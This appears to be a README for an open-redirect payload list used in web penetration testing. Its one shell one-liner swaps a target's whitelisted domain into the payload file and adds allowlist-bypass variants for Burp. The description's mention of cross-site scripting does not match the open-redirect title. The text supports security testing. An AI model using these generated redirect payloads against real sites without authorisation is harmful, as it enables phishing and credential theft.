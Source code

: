 # Open Redirect Payloads
Payloads for cross-site scripting attacks over web-domains.

***

### Replace www.whitelisteddomain.tld with a specific whitelisted domain in your test case

To do this simply modify the WHITELISTEDDOMAIN with value www.test.com to your test case URL.

`WHITELISTEDDOMAIN="www.test.com" && sed 's/www.whitelisteddomain.tld/'"$WHITELISTEDDOMAIN"'/' Open-Redirect-payloads.txt > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".tmp && sed 's/@www.whitelisteddomain.tld/@'"$WHITELISTEDDOMAIN"'/' Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".tmp > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{if ($1 =="www") print "//not"$2"."$NF"/"; else print "//not"$1"."$NF"/";}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{if ($1 =="www") print "http://not"$2"."$NF"/"; else print "http://not"$1"."$NF"/";}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{print "http://"$0"."$NF"/"}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && rm -f Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".tmp && echo -e "\nDone. Filename: $(pwd)/Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt"`

***
